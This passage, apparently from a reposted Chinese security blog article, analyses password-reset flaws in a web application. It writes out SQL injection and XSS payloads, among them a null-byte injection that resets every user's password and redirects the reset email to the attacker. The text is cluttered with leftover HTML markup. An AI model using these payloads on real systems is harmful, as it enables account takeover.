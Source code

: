     Response Message (Line 47): Your new password was sent to: ’ or 1=1#</span><span style="margin:0;padding:0;" class="tag"><script></span><span style="margin:0;padding:0;color:#48484c;" class="pln">alert</span><span style="margin:0;padding:0;color:#93a1a1;" class="pun">(</span><span style="margin:0;padding:0;color:#195f91;" class="lit">1</span><span style="margin:0;padding:0;color:#93a1a1;" class="pun">)</span><span style="margin:0;padding:0;" class="tag"></script></span>




提交上述数据，系统首先会修改所有用户的密码，然后给所有用户发送包含恶意脚本的文件




**（6）密码重置信息劫持**




最后一个漏洞是密码重置信息劫持，也是危害比较严重的漏洞。产生原因是，用户提交数据mail（又是这货）被包含到了MIME头中，这个漏洞的利用同样需要配合SQL注入：




    
    <span style="margin:0;padding:0;color:#48484c;" class="pln">User Input: LanLan@wyl.com%00’ or 1=1%23
    First SQL becomes (Line 15): SELECT usr_user.id, usr_user.name, usr_user.email, usr_user.password FROM usr_user WHERE usr_user.email = ’LanLan@wyl.com[null byte char]’ or 1=1#’ ORDER   BY id DESC 
    Second SQL becomes (Line 26): UPDATE usr_user SET password = MD5(trim(‘xxxxxxxxxx’)) WHERE email like ’LanLan@wyl.com[null byte char]’ or 1=1#’
    MIME Header becomes (Line 34): To: John Smith </span><span style="margin:0;padding:0;" class="tag"><LanLan</span><span style="margin:0;padding:0;color:#48484c;" class="pln">@</span><span style="margin:0;padding:0;color:teal;" class="atn">wyl</span><span style="margin:0;padding:0;color:#48484c;" class="pln">.</span><span style="margin:0;padding:0;color:teal;" class="atn">com</span><span style="margin:0;padding:0;color:#48484c;" class="pln">[</span><span style="margin:0;padding:0;color:teal;" class="atn">null</span><span style="margin:0;padding:0;color:#48484c;" class="pln"> </span><span style="margin:0;padding:0;color:teal;" class="atn">byte</span><span style="margin:0;padding:0;color:#48484c;" class="pln"> </span><span style="margin:0;padding:0;color:teal;" class="atn">char</span><span style="margin:0;padding:0;color:#48484c;" class="pln">]’ </span><span style="margin:0;padding:0;color:teal;" class="atn">or</span><span style="margin:0;padding:0;color:#48484c;" class="pln"> 1</span><span style="margin:0;padding:0;color:#93a1a1;" class="pun">=</span><span style="margin:0;padding:0;color:#dd1144;" class="atv">1#</span><span style="margin:0;padding:0;" class="tag">></span>




执行上面的代码的结果就是所用用户密码被修改，修改后的邮件会被发送到LanLan@wyl.com，这里[null byte char]会截断mini头中的信息




最近Freebuf上发过一个邮件注入的帖子，感觉可以在这种情况下加以利用），但是我觉得在很多数据库中[null byte char]也会截断查询，这里没有进行测试，有兴趣的同学可以测试一下   
Hope you enjoy! ![:-)](http://fbt.02753.com/images/smilies/icon_smile.gif)   
原文地址：[http://www.freebuf.com/articles/web/21214.html](http://www.freebuf.com/articles/web/21214.html)
